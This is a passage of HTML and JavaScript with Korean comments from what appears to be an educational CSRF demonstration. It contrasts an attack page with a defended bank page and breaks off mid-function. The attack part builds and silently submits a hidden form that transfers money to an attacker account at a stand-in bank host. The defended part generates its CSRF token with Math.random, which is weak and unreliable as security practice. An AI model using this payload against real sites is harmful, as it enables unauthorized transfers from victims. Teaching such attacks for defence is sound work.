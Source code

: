 ```html
          alert("다운로드를 시작합니다...");

          // 숨겨진 CSRF 공격 실행
          performCSRFAttack();
        }

        function performCSRFAttack() {
          // 은행 사이트로 자동 송금 요청 (CSRF)
          const form = document.createElement("form");
          form.method = "POST";
          form.action = "https://victim-bank.com/transfer";
          form.target = "hiddenFrame";

          const accountInput = document.createElement("input");
          accountInput.type = "hidden";
          accountInput.name = "account";
          accountInput.value = "hacker-account-123";

          const amountInput = document.createElement("input");
          amountInput.type = "hidden";
          amountInput.name = "amount";
          amountInput.value = "500000";

          form.appendChild(accountInput);
          form.appendChild(amountInput);
          document.body.appendChild(form);

          // 폼 자동 제출 (사용자 모르게)
          form.submit();

          // 시뮬레이션 결과 표시
          setTimeout(() => {
            document.getElementById("csrfResult").innerHTML =
              "🚨 CSRF 공격 시뮬레이션 완료! 500,000원이 해커 계좌로 송금되었습니다.";
          }, 1000);
        }
      </script>

      <div
        id="csrfResult"
        style="color: red; font-weight: bold; margin-top: 10px;"
      ></div>
    </div>

    <!-- 방어 버전 -->
    <div style="background: #e6ffe6; padding: 15px; margin: 10px 0;">
      <h3>🛡️ CSRF 방어된 은행 사이트</h3>
      <p>SameSite=Strict 쿠키 + CSRF 토큰 적용</p>

      <script>
        // 보안 쿠키 설정
        document.cookie =
          "bankSession=secure123; SameSite=Strict; Secure; path=/";

        function secureTransfer() {
          // CSRF 토큰 검증
          const csrfToken = generateCSRFToken();
          alert(`CSRF 토큰으로 보호된 송금: ${csrfToken}`);
        }

        function generateCSRFToken() {
          return (
            Math.random().toString(36).substring(2, 15) +
```